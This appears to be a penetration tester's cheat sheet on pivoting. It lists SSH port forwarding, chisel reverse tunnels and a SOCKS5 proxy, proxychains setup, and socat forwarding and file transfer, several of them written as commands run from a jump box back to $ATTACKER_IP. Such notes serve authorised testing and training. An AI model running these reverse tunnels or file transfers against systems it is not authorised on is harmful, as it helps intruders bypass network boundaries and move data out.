 Forward port from $TARGET_IP to localhost with SSH
---
```shell
ssh -N -L $PORT:localhost:$PORT $USER@$TARGET_IP
```

or run in background with -f option

```shell
ssh -N -f -L $PORT:localhost:$PORT $USER@$TARGET_IP
```

Forward port from remote machine to local machine:

```shell
service ssh start
```

then on remote machine

```shell
ssh -N -R $REMOTE_PORT:localhost:$PORT $USER@$ATTACKER_IP
```

Using CHISEL:
---
single port on attacker machine

```shell
chisel server --port 8000 --reverse
```

from jump box

```shell
./chisel client $ATTACKER_IP:8000 R:$PORT:$DEST_IP:$PORT
```

 Opening socks5 server on LOCAL machine on port 1080

```shell
chisel server --port 8001 --socks5 --reverse
```

on jump box

```shell
./chisel client --max-retry-count 1 $ATTACKER_IP:8001 R:socks
```

Then edit proxychains config:
  
```config
socks5 127.0.0.1 1080
```

Execute commands with

```
proxychains -q
```

in front of them

Forward local port to target IP with SOCAT
---
```
socat TCP-LISTEN:139,reuseaddr,fork TCP:$TARGET_IP:$PORT &
```

Using SOCAT to send file:
---
On receiving machine

```shell
socat -u TCP-LISTEN:9876,reuseaddr OPEN:$FILE_OUT,creat
```

and on sending machine

```shell
socat -u FILE:$FILE_OUT TCP:$RECEIVER_IP:9876
```